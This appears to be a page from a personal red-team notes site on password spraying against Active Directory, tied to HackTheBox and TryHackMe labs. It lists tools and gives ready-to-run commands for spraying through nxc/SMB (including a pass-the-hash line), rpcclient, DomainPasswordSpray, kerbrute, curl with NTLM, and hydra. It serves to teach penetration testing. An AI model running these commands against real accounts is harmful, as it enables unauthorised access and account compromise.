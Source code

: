 # Password spraying

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)
[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)
[![passwordattacks](../../../../_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

<div class="row row-cols-lg-2"><div>

Password spraying is a technique that is the most commonly used nowadays to find a working credential pair.

We select a password and test it on a list of usernames. After a delay, we repeat this step with another password. 🤖

Many companies have some [password policy](policy.md) that may include account lookout after a certain number of failed attempts, which makes brute force impractical as we would lock all accounts.
</div><div>

Some tools you might use:

* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) <small>(1.4k ⭐, 2022 🪦)</small>
* [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray) <small>(0.9k ⭐)</small>
* [CredMaster](https://github.com/knavesec/CredMaster) <small>(0.8k ⭐)</small>

Many [network authentication tools](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md) can be used such as `hydra -C`.
</div></div>

<hr class="sep-both">

## Windows Credentials Password spraying

<div class="row row-cols-lg-2"><div>

#### Leveraging SMB

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You can use [SMB](/operating-systems/networking/protocols/smb.md):

```ps
$ nxc smb IP -u wordlist -p PasswordHere
$ nxc smb IP -u wordlist -p PasswordHere | grep +
$ nxc smb --local-auth CIDR -u administrator -H hash | grep +
```

#### Leveraging RPC

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

A very poor but straightforward [RPC](/operating-systems/networking/protocols/rpc.md) password spraying:

```ps
$ for u in $(cat wordlist);do rpcclient -U "$u%PasswordHere" -c "getusername;quit" IP | grep Authority; done
```
</div><div>

#### Leveraging A Domain-joined Host

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

You may use [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) <small>(1.6k ⭐)</small>:

```ps
PS> Import-Module .\DomainPasswordSpray.ps1
PS> Invoke-DomainPasswordSpray -Password PasswordHere -OutFile output.txt -ErrorAction SilentlyContinue
```

#### Leveraging Kerberos Authentication Module

[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

We can use [kerbrute](/cybersecurity/red-team/tools/utilities/windows/kerbrute.md):

```ps
$ kerbrute passwordspray -d domain --dc IP valid_users.txt mypassword
```
</div></div>

<hr class="sep-both">

## HTTP LDAP Credentials Password spraying

[![breachingad](../../../../_badges/thm/breachingad.svg)](https://tryhackme.com/r/room/breachingad)

<div class="row row-cols-lg-2"><div>

We can use `curl` to test a pair of credentials:

```ps
$ curl URL -u "username:password" --ntlm
```

We can also use tools such as hydra:

```ps
$ hydra -L usernames.txt -p password example.com http-get
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [sprayhound](https://github.com/Hackndo/sprayhound)
</div><div>
</div></div>